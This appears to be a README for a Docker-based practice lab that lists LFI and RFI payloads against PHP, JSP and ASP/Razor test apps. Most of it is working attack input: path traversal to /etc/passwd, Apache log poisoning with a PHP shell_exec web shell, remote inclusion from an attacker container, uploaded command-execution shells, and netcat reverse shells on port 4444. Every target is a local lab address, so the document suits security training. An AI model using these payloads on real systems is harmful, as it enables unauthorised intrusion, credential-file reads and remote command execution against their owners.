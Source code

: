 # Payloads

For an in-detail-description of the following payloads go to [https://secf00tprint.github.io/blog/payload-tester/lfirfi/en](https://secf00tprint.github.io/blog/payload-tester/lfirfi/en)

## RFI

For the RFI payloads you have to change the IP to the IP from the internal network in every link. Use `docker inspect <docker_attacker_id>` to get the IP.

## PHP

### RFI 

- [http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?](http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?)
- [http://127.0.0.1:8883/lfi.php?page=http://google.com](http://127.0.0.1:8883/lfi.php?page=http://google.com)

see `allow_url_include` in response

### etc/passwd

[http://127.0.0.1:8883/lfi.php?page=/etc/passwd](http://127.0.0.1:8883/lfi.php?page=/etc/passwd)

By way of experiment add `../` before `etc/passwd` until ...

[http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd](http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd)

### Log Injection

Get `access.log`: 

Changed here to `access_combined.log`. The used docker image pipes `access.log` to stdout, so the default log of the apache is know changed. (If somebody knows a way to change `access.log`->`stdout` for this image to write both to stdout and in the file help would be appreciated, please mail me):

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log)

Then use:

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

and

[http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id](http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id)

Check for uid in output

### LFI

#### Verification

Upload check.php from attacker-server src folder

then:

- [http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check) or
- [http://127.0.0.1:8883/lfi.php?language=uploads/check](http://127.0.0.1:8883/lfi.php?language=uploads/check)

#### Exploit

Upload shell.php
[http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell](http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell)

then:

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

### LFI

Upload runme.jsp for Remote Code Execution:

- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls)
- [http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd](http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd)

### RFI

(You have to adjust ip addresses to the attacker server in the docker network)

- [http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor](http://localhost:8881/webapp/?help=http://172.18.0.3:8080/webapp/thiscomesfromhaxxor)
- [http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls](http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/runme.jsp?exec=ls)

## ASP / Razor

Use [https://github.com/StefanScherer/windows-docker-machine](https://github.com/StefanScherer/windows-docker-machine) to get a windows docker environment

Upload the files and call:

`SimpleEchopayload.cshtml`

[http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml](http://192.168.99.90:8080/?test=SimpleEchoPayload.cshtml)

`WinLfiPayload.cshtml`

[http://192.168.99.90:8080/?test=WinLfiPayload.cshtml](http://192.168.99.90:8080/?test=WinLfiPayload.cshtml)

`CheckPowerShell.cshtml`

[http://192.168.99.90:8080/?test=CheckPowerShell.cshtml](http://192.168.99.90:8080/?test=CheckPowerShell.cshtml)

`RevShell.cshtml`, change IP to attacker server ip in the file

nc -nlvp 4444 at attacker server, then:

[http://192.168.99.90:8080/?test=RevShell.cshtml](http://192.168.99.90:8080/?test=RevShell.cshtml)

